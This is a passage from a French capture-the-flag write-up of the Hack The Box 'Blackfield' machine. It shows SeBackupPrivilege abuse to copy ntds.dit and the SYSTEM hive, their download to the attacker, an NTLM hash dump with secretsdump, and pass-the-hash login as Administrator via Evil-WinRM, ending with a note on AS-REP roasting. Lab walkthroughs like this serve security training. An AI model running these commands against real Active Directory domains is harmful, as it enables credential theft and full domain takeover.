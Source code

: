 Et sur la victime j'upload les 2 DLL directement grâce è Evil-Winrm.

	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> upload SeBackupPrivilegeCmdLets.dll
	*Evil-WinRM* PS C:\Users\svc_backup\Desktop> upload SeBackupPrivilegeUtils.dll

Voilà on peut désormais utiliser notre privilège SeBackupPrivilege.

	*Evil-WinRM* PS C:\exfil> Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\exfil\ntds.dit

Pour la suite, on aura aussi besoin de :

	*Evil-WinRM* PS C:\exfil> reg save HKLM\SYSTEM c:\exfil\system

On télécharge sur notre machine attaquant :

	*Evil-WinRM* PS C:\exfil> download system
	*Evil-WinRM* PS C:\exfil> download ntds.dit

### Dump des NTLM depuis les fichiers ntds.dit et system

Je dump les hashs ntlm.

	kali@kali:~/Blackfield$ secretsdump.py -ntds ntds.dit -system system -hashes lmhash:nthash LOCAL -output nt-hash
	Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
	
	[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
	[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
	[*] Searching for pekList, be patient
	[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
	[*] Reading and decrypting hashes from ntds.dit 
	Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
	krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
	audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
	support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
	BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
	...

Reste à se connecter en admin à l'aide du hash découvert.

	kali@kali:~/Blackfield$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
	Evil-WinRM shell v2.3
	Info: Establishing connection to remote endpoint
	*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
	*Evil-WinRM* PS C:\Users\Administrator> cd desktop
	*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
	4375a629c7c67c8e29db269060c955cb
	*Evil-WinRM* PS C:\Users\Administrator\desktop> 

## Plus loin

On peut vérifier que le compte _support_ est bien "vulnérable" à l'attaque AR-REP Roasting. DoesNotRequirePreAuth est bien activé.

